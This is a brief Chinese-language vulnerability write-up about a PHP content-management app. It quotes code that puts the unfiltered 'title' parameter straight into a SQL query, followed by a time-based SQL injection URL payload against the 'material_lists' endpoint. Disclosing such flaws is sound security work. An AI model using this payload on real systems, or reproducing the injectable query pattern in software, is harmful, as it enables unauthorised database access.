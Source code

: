```plain
$title = I('title');
        // dump($title);exit;
        if (!empty($title)) {
            $map['title'] = array(
                'like',
                "%$title%"
            );
            $where .= " and `title` like '%$title%'";
        }
        $count = M()->query("SELECT COUNT( distinct `group_id`) AS tp_count FROM `wp_material_news` WHERE {$where} LIMIT 1");
```

​ title 没有被任何过滤直接代入了查询中

```plain
public/index.php/Material/Material/material_lists?title=-1'or sleep(3) --
```

就可以直接注入了
